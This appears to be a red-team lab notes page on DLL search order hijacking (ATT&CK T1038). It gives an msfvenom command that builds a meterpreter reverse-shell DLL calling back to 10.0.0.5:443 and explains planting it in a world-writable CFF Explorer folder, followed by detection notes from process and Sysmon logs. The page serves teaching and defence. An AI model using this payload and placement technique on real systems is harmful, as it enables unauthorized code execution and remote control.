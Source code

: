 ```yaml
---
description: 'DLL Search Order Hijacking for privilege escalation, code execution, etc.'
---
```


# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which will give as a meterpreter shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

As an example of this technique, we try launching the `CFF Explorer.exe` program installed on the victim host which attempts to load `CFF Explorer Enu.dll` from the location the program is installed. The result -  the DLL cannot be loaded \(note the NAME NOT FOUND\) as the DLL does not exist:

![](../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! The `evil-meterpreter64.dll` is now moved to `C:\Program Files\NTCore\Explorer Suite` and renamed to `CFF ExplorerENU.dll` 

![](../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found \(SUCCESS\):

![](../.gitbook/assets/dll-success.png)

which is good news for the attacker:

![](../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no parent process associated and with an established connection - this should raise your suspicion immediately:

![](../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives a better view of what happened - CFF Explorer.exe was started as a process 4856 which then kicked off a rundll32 \(1872\) which then established a connection to 10.0.0.5:

![](../.gitbook/assets/dll-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1038\",\"type\":\"link\",\"title\":\"DLL Search Order Hijacking - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2017/03/27/dll-hijacking/\",\"type\":\"link\",\"title\":\"DLL Hijacking\",\"description\":\"In Windows environments when an application or a service is starting it looks for a number of DLL’s in order to function properly. If these DLL’s doesn’t exist or are implemented …\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2017/03/generating-malicious-dll.png\",\"width\":726,\"height\":200,\"aspectRatio\":0.27548209366391185}}" %}

  


